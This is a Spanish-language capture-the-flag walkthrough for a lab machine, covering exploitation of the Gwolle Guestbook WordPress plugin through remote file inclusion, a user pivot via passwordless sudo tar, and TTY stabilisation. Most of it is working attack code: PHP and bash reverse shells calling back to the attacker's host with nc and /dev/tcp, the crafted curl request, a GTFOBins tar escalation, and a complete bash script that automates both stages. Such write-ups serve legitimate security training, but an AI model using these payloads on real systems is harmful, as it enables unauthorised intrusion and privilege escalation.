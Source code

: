 ## Vuln exploit & Gaining Access {-}

### Entablar una reverse shell desde la vulnerabilidad Gwolle {-}

1. Creamos el fichero `wp-load.php` que contiene

    ```php
    <?php
    system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f");
    ?>
    ```

1. Montamos un servidor web desde la maquina de attackante

    ```bash
    python3 -m http.server
    ```

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Lanzamos la peticion get con curl

    ```bash
    curl -s -X GET "http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.8/"
    ```

Ya podemos comprobar que estamos dentro de la maquina

```bash
whoami
#Output

www-data

hostname-I
#Output

10.10.10.88
```

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### Analizamos la maquina {-}

```bash
cd /home
ls
cd /onuma

id
sudo -l
#Output

(onuma) NOPASSWD: /bin/tar
```

Aqui vemos que hay un usuario onuma en el directorio home pero no tenemos capacidad de accesso. Tambien vemos que podemos uzar 
el commando tar como el usuario **onuma** sin proporcionar contraseña.

### User Pivoting al usuario onuma {-}

Como es possible utilizar el commando tar como el usuario onuma sin propocionar contraseña, vamos a la pagina [GTFOBINS](https://gtfobins.github.io/) y buscamos 
una manera de entablarnos una shell como el usuario onuma

```bash
sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
whoami
#Output

onuma
```

Aqui ya podemos ver la flag.

### Automatizamos el accesso en bash {-}

```bash
#!/bin/bash

function ctrl_c(){
    echo -e "\n\n[!] Saliendo ...\n"
    exit 1
}

# Ctrl+C
trap ctrl_c INT

# ./exploit.sh -u www-data/onuma

function helpPanel(){
    echo -e "\n[!] Uso: $0 -u www-data/onuma\n"
    exit 1
}

function makeWWWDataFile(){
cat << EOF > wp-load.php
<?php
    system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f");
?>
EOF
}

function makeOnumaFile(){
cat << EOF > wp-load.php
<?php
    system("echo '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.8/443 0>&1' > /dev/shm/s4vishell.sh");
    system("sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=\"bash /dev/shm/s4vishell.sh\"");
?>
EOF
}

function makeRequest(){
    if [ "$(echo $username)" == "www-data" ]; then
        makeWWWDataFile
        python3 -m http.server 80 &>/dev/null &
        curl -s -X GET "http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.8/"
        rm wp-load.php
        kill -9 $(lsof -i:80 | grep "python" | awk '{print $2}') &>/dev/null
    elif [ "$(echo $username)" == "onuma" ]; then
        makeOnumaFile
        python3 -m http.server 80 &>/dev/null &
        curl -s -X GET "http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.8/"
        rm wp-load.php
        kill -9 $(lsof -i:80 | grep "python" | awk '{print $2}') &>/dev/null
    else
        echo -e "\n[!] El usuario es invÃ¡lido\n"
        exit 1
    fi
}

declare -i parameter_counter=0; while getopts ":u:h:" arg; do
    case $arg in
        u) username=$OPTARG; let parameter_counter+=1;;
        h) helpPanel;;
    esac
done

if [ $parameter_counter -eq 0 ]; then
    helpPanel
else
    makeRequest
fi
```

Para usar este script, nos tenemos previamente que poner en escucha por el puerto 443 y con otra shell, usar el exploit:

- para acceder a la maquina como el usuario www-data

    ```bash
    ./exploitTheThing.sh -u www-data
    ```

- para acceder a la maquina como el usuario onuma

    ```bash
    ./exploitTheThing.sh -u onuma
    ```



